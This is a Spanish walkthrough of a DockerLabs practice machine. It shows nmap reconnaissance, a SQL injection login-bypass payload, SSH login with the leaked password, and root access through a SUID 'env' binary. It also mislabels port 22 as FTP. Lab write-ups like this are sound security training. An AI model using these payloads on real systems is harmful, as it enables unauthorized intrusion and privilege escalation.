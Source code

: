 # Write Up Injection

**Dificultad:** Super fácil<br>
**Enlace a dockerlabs:** https://dockerlabs.es/

## Configuración del entorno
Primero de todo desplegamos la máquina mediante el script que viene al descargar la máquina
```
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, creamos la carpeta injection, nos metemos dentro y usamos la utilidad *mkt* que nos crea las carpetas *nmap*, *content*, *exploits* y *scripts*.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Reconocimiento
Lo primero que realizamos es un reconocimiento general con nmap sobre la máquina víctima, para obtener los puertos abiertos. 
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Una vez obtenemos los puertos abiertos, realizamos un escaneo mas exhaustivo mediante scripts de reconocimiento para obtener los servicios de cada puerto y la versión en la que corren

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

De esta manera descubrimos que el servicio que está corriendo en el puerto 22 (puerto FTP) es el OpenSSH 8.9p1 y en el puerto 80 (puerto http) está corriendo un servicio web Apache httpd 2.4.52.

## Explotación
Como hemos visto que hay un servicio web corriendo en la máquina víctima procedemos a ver la web, añadiendo el dominio (en este caso no tiene y simplemente pondremos el nombre de la máquina) al archivo */etc/hosts* de nuestra máquina virtual (es el archivo de configuración de DNS local).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Una vez configurado el archivo */etc/hosts* procedemos a acceder a la página web, y vemos que es un formulario de login.

![Web](../.sources/injection-login.png)

Probamos a introducir los parámetros básicos para comprobar si hay inyección SQL. Para ello hay que introducir la cadena *admin' OR '1' = '1'; --* en el apartado de usuario y cualquier cosa en password (en mi caso he puesto *hacked!*) para que deje enviar el formulario, y si todo va bien, podremos entrar siendo los administradores (si no va con el usuario admin se puede ir cambiando a root, administrator, y cosas parecidas, pero sin perder mucho el tiempo).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

Y bingo! Estamos dentro y obtenemos las credenciales de el usuario Dylan

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Al haber obtenido esas credenciales, podemos probar a acceder mediante el puerto ssh también abierto.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

Y ya tenemos acceso a la máquina!

## Escalada de privilegios

Para poder utilizar la consola de una manera mas cómoda podemos hacer el siguiente tratamiento de la terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Ahora que tenemos una terminal buscamos archivos (a poder ser binarios) con usuario root y el flag *setuid* activo y encontramos los siguientes:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

Así que usamos el comando env de la siguiente forma y elevamos privilegios a root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```
## Lecciones vistas
1. Escaneos con **nmap**
2. Inyección SQL simple
3. Busqueda de binarios con *setuid* activo
4. Escalada de privilegios con **env**